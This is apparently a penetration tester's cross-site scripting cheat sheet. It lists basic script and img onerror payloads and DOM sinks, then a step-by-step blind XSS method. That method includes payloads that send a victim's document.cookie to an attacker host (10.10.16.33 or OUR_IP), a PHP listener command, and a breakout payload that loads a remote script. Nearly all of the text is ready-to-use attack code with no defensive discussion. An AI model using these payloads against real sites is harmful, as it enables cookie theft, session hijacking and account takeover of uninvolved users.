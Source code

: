 
## Basic
```
<script>alert("Hi")</script>
```

```
<script>print()</script>
```

```
<script>alert(document.cookie)</script>
```

```
<script>alert(window.origin)</script>
```

### Writing DOM Objects
```
document.write()
```

```
DOM.innerHTML
```

```
DOM.outerHTML
```

```
add()
```

```
after()
```

```
append()
```

```
<img src="" onerror=alert(window.origin)>
```

```
<script src="http://OUR_IP/script.js"></script>
```

## Blind XSS
1) Find Vulnerable Parameter
2) Create script.js to POST cookie

```
new Image().src='http://10.10.16.33:4444/index.php?c='+document.cookie;
```

3) Start PHP server. 

```shell
php -S 0.0.0.0:80
```

4) Use script src in vulnerable parameter

```
"><script src=http://10.10.16.33/script.js></script>
```

```
document.location='http://OUR_IP/index.php?c='+document.cookie;
```